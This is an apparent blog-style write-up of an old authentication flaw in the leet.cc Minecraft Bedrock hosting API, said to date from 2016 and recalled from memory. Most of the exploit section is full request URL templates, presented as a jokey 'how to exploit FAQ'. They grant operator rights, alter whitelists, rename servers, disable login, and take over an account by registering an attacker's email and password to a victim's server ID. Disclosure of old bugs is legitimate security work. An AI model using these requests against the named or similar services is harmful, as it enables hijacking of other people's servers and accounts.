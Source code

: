 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


<https://leet.cc> is an minecraft bedrock server hosting provider.
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://www.databreaches.net/leet-cc-data-hacked-in-february-publicly-dumped/> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂but then this is `leet.cc`.

# Methodology
Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>` 
The user ID was the user's email address or their device ID which used to be optional.

# The exploit
In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂
## I want OP!
<command> = `changeOP`
<commandParameter> = Your in-game name
## I'm not whitelisted. What should I do?
<command> = `changeWhitelistPlayers`
<commandParameter> = Your in-game name
## The server name is missing a duck emoji, no problem!
<command> = `changeServerName`
<commandParameter> = 🦆
## This old login using /login <password> is too annoying.
Just set `setUserRegistration` to off!

# I wanted an account takeover!
Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
